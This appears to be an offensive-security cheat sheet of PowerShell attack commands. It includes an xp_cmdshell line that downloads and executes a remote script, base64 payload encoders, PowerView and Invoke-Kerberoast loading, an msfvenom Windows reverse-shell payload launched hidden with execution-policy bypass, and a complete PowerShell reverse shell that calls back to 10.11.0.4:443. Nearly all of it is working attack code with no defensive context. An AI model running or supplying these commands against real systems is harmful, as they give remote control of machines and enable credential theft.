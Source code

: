 ```powershell
EXEC master..xp_cmdshell 'powershell "iex(New-Object Net.WebClient).DownloadString(''http://192.168.159.10/tools/shell443.ps1'')"'

# Invoke-Encode
Invoke-Encode -DataToEncode C:\scripts\data.txt

Invoke-Encode -DataToEncode .\Invoke-PowerShellTcpOneLine_443.ps1 -OutCommand

# python b64xfunc
b64xFunc.py -file FILE	  # Load ps1 from file
b64xFunc.py -url URL      # Load ps1 from url
b64xFunc.py -cmd "CMD"	  # Encode a single command

## kali
b64xFunc.py -file powerview.ps1 > test.ps1
b64xFunc.py -file Invoke-Kerberoast.ps1 >> test.ps1
## target
Import-Module ./test.ps1
Invoke-Kerberoast | fl

# msfvenom
## generate b64 string
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=443 --format psh --smallest | msfvenom -a x86 --platform Windows -e powershell/base64 NOEXIT
## execute
powershell.exe -W Hidden -nop -ep bypass -NoExit -E <b64 string>

msfvenom --list encoders

```


### basic script
**reverse shell**

```powershell
sudo nc -nvlp 443

//powershell
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```
